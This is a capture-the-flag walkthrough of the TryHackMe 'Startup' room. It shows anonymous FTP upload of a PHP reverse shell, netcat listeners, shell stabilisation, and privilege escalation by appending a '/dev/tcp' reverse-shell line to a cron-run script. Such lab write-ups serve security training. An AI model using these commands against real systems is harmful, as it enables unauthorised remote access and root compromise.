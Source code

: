 ```yaml
---
layout: post
permalink: /posts/thm/startup
title: "Startup"
---
```


We are Spice Hut, a new startup company that just made it big! We offer a variety of spices and club sandwiches (in case you get hungry), but that is not why you are here. To be truthful, we aren't sure if our developers know what they are doing and our security concerns are rising. We ask that you perform a thorough penetration test and try to own root. Good luck! <br/>

Scan the target machine with nmap.

```
nmap -sC -sV <IP>
```

![nmap](/assets/images/thm/startup/nmap.png)

From the scan result we can see there is open port 80 HTTP, 22 SSH and 21 FTP. We can also notice that anonnymous login is enabled on FTP. Let's login and see whether we will be able to find something there.

```
ftp <IP>
```

When it prompt for username provide `anonymous`

![ftp](/assets/images/thm/startup/ftp.png)

There are two files and one directory which is empty. You can download the files with the following command `get <FILLE_NAME>` <br/>

Let's read the text file.

![notice](/assets/images/thm/startup/notice.png)

Hmm... probably we'll be able to upload file into FTP which it'll be accessible through the website. I wasn't able to open the jpg file. Let's visit the website.

![website](/assets/images/thm/startup/website.png)

Nothing useful. Try to scan for hidden directories. I'm going to use gobuster for that purpose.

```
gobuster dir -u http://<IP>/ -w SecLists/Discovery/Web-Content/directory-list-2.3-small.txt 
```

![gobuster](/assets/images/thm/startup/gobuster.png)

We have found `files` directory. Let's visit it.

![files](/assets/images/thm/startup/files.png)

These are the files from FTP which we had visited. Let's try to upload reverse shell script. I'm going to use this one <https://github.com/pentestmonkey/php-reverse-shell> Don't forget to change the IP address with your attacking machine IP and desired port.

Go again to the FTP server and navigate to `ftp` folder. From there you can execute the following command `put <FILE_NAME>` to upload your reverse shell script.

![upload](/assets/images/thm/startup/upload.png)

Your script has been uploaded successfully. Go and visit `http://<IP>/files/ftp/` to see whether we'll find your script.

![script](/assets/images/thm/startup/script.png)

Nice, it's here. Start netcat listener on your machine with the port you set in the script.

```
nc -lvnp <PORT>
```

Once the listener is set try to reach the script. It will try loading and you should have shell access in your terminal.

![shell](/assets/images/thm/startup/shell.png)

Now try to find the secret spicy soup recipe.

If list the root directory `/` you will find an interesting folder `incidents`.

![incidents](/assets/images/thm/startup/incidents.png)

How we can download this file. I'm going to start a python server.

```
python -m SimpleHTTPServer
```

Now on your machine execute the following command to download the pcapng file.

```
wget http://<TARGET_MACHINE_IP>:8000/suspicious.pcapng
```

Now we are going to use Wireshark to open the file.

![wireshark](/assets/images/thm/startup/wireshark.png)

Looking trough the packets I find out that someone has also already hack Spice Hut. Right click on packet 35 and select Follow -> TCP Stream

![pass](/assets/images/thm/startup/pass.png)

Someone has tried to see whether user lennie has any sudo rights. I tried to ssh with this username and password but it wasn't successfull.

![ssh](/assets/images/thm/startup/ssh.png)

Then I decided to try to switch the user from the shell which we have but first we need to stabilize our shell.

```
python -c 'import pty; pty.spawn("/bin/bash")'
```

`CTRL+Z` to background the process and go back to the local host. Execute `stty raw -echo` and after that `fg + ENTER` to go back to the reverse shell.

![stabilize](/assets/images/thm/startup/stabilize.png)

Now we should be able to switch to lennie

```
su lennie
```

Try to find the user flag.

Now we need to find a way to escalate our priviliges. As awlays I tried to check whether lennie has any sudo right with `sudo -l` but lennie doesn't have any rights. What can we do then? There is a folder `scripts` in lennie home directory, let's visit it. There are two files.

![ls-la](/assets/images/thm/startup/ls-la.png)

planner.sh is owned by root and we are not able to write in it but we can read it.

![cat](/assets/images/thm/startup/cat.png)

The script can executes other scrpit print.sh

![print](/assets/images/thm/startup/print.png)

Probably planner.sh is runned by cronjob but let's check that. We are going to use `pspy64`. It's a tool which snoop on processes without need root permissions. <br>

start python server on your machine

```
python3 -m httpp.server
```

Download it on the target machine

```
wget http://<YOUR_IP>:8000/pspy64
```

![pspy64](/assets/images/thm/startup/pspy64.png)

![pspy-scan](/assets/images/thm/startup/pspy-scan.png)

As we thought planner.sh is run by cronjob as root 

So, we are the owner of print.sh. We can add some additional script in it. Here you can find some reverse shell cheat sheet <https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet> 

Change the script with your IP address

```
echo "bash -i >& /dev/tcp/<IP>/5555 0>&1" >> /etc/print.sh
```

We also need to start listener on our machine

```
nc -lvnp 5555
```

Wait a little bit and the script will be executed automatically via cronjob. 

![root](/assets/images/thm/startup/root.png)

Here we go, we have root access.
